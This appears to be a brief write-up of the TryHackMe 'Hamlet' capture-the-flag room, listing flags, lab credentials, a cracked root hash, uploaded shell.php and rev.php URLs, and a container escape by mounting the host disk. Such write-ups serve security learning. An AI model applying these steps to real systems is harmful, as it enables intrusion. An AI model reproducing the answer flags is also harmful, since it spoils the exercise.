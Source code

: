 # Hamlet 

> VOiD | Friday 28 January 2022 05:51:29 AM UTC

My IP : 10.8.253.221
Target IP : 10.10.211.211


## PORT 80 [http]
```bash
http://10.10.211.211/robots.txt

THM{1_most_mechanical_and_dirty_hand}

cewl -m 12 -w wordlist.txt --lowercase http://10.10.211.211/hamlet.txt

vnsanctified

admin
ophelia

we can change passwords of other users

"Don't forget that the KEQehFDWwuQbMbKW password does not work for WebAnno."


in gravediggers.py
THM{2_ophelia_s_grave}

cat flag
THM{3_i_was_the_more_deceived}
                           
ghost : vnsanctified

http://10.10.211.211:8000/repository/project/0/document/1/source/shell.php
http://10.10.211.211:8000/repository/project/0/document/2/source/rev.php

```

## USER [www-data]
```bash
root:$y$j9T$.9s2wZRY3hcP/udKIFher1$sIBIYsiMmFlXhKOO4ZDJDXo54byuq7a4xAD0k9jw2m4:18885:0:99999:7:::


john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=crypt
murder           (root)



```

## USER [root - docker]
```bash

root@66505608bd11://stage# cat flag 
THM{4_the_murder_of_gonzago}

root@66505608bd11:~# cat .flag 
THM{5_murder_most_foul}

root@66505608bd11:/mnt# mkdir host
root@66505608bd11:/mnt# mount /dev/dm-0 host/
root@66505608bd11:/mnt# cd host/
root@66505608bd11:/mnt/host/root# cat flag 
THM{6_though_this_be_madness_yet_there_is_method_in_t}

```


